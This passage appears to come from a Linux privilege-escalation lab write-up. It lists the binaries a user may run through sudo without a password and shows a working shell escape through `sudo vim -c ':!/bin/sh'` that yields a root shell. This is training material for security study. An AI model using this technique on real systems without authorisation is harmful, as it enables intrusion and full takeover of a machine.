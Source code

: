 ## Shell Escaping

We can find the commands our user can run as sudo by typing `sudo -l`

```bash
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

We see that there are several commands we can run as sudo without a password as this user. We can use one of these commands to see whether there is shell escape available though [GTFOBins](https://gtfobins.github.io/). For example we can exploit `vim` as follow.

```bash
TCM@debian:~$ sudo vim -c ':!/bin/sh'
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
```

## Intended Functionality

